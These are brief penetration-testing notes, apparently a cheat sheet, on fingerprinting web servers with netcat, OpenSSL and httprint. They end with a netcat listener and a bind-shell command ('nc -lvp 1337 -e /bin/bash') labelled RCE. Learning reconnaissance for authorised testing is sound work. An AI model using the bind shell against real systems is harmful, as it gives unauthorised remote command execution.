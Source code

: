 #Fingerprinting Web Servers with Netcat
#Banner Grabbing:
nc <target address> 80
HEAD / HTTP/1.0 (hit enter twice)
#Note netcat doesn't notify you of a connection.
write requests in UPPERCASE

#Fingerprinting with OpenSSL
(for HTTPS connections)
Use to est connection to HTTPS service and send HEAD HTTP verb.

$openssl s_client -connect target.site:443
HEAD / HTTP/1.0

#Fingerprinting with httprint (signature-based to id web servers) 
httprint -P0 -h <target hosts> -s <signature file>
-P0 to avoid pinging host.
-h target hosts
-s to set signature file (/usr/share/httprint/signature.txt)
#netcat listener
nc -lvp 8888
(listen,verbose,port)
listening on....
0.0.0.0:8888 (all network interfaces)
#netcat bind shell!!(RCE)
Server:
nc -lvp 1337 -e /bin/bash 
Client:
nc -v 127.0.0.1 1337
